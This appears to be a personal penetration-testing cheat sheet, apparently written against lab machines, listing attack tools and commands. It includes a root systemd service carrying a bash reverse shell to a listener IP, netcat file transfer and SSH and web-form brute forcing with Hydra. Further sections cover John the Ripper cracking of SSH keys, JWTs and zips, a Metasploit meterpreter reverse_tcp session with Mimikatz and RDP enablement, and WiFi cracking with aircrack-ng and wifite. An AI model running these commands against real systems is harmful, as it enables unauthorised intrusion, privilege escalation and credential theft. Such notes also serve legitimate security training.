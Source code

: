 # 3 Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:

![netcat_injecttest](_netcat_injecttest.jpg)

### Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Web

### Wordpress

[WPScan](https://github.com/wpscanteam/wpscan) is a WordPress security scanner to test the security of their WordPress websites.

Example

``` sh
wpscan --url http://example.org/wordpress -e u
wpscan --url http://example.org/wordpress --usernames admin --passwords wordlist.txt --threads 10
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

[John the Ripper](https://github.com/openwall/john) is a tool for offline password cracking. If you prefer a GUI there is one available [here](https://github.com/openwall/johnny).

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

Crack a password protected zip file:

``` sh
zip2john filename.zip > filename.hash
john filename.hash --wordlist=wordlist.txt --verbosity=5
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### WiFite2

[wifite2](https://github.com/kimocoder/wifite2) is a tool to audit WEP or WPA encrypted wireless networks. It uses aircrack-ng, pyrit, reaver, tshark tools to perform the audit.

Examples:

- Cracking WPS PIN (Pixie-Dust with Reaver to get PIN and Bully to get PSK): ```wifite -e ESSID```
- Cracking WPA key using PMKID attack: ```wifite -e ESSID --pmkid```
- Decloaking & cracking a hidden access point on channel 10 using the WPA Handshake attack: ```wifite -c 10```
- Cracking a weak WEP password using the WEP Replay attack: ```wifite --wep```
- Cracking a pre-captured handshake using John The Ripper: ```wifite --crack```
- Cracking a 5Ghz WiFi (skipping WPS, PMKID to save time) using a given dictionary: ```sudo wifite --kill --no-wps --no-pmkid --5ghz --dict wordlist.txt```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file ```/usr/local/etc/kismet.conf```
- And add a sourece e.g. ```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info -> copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.
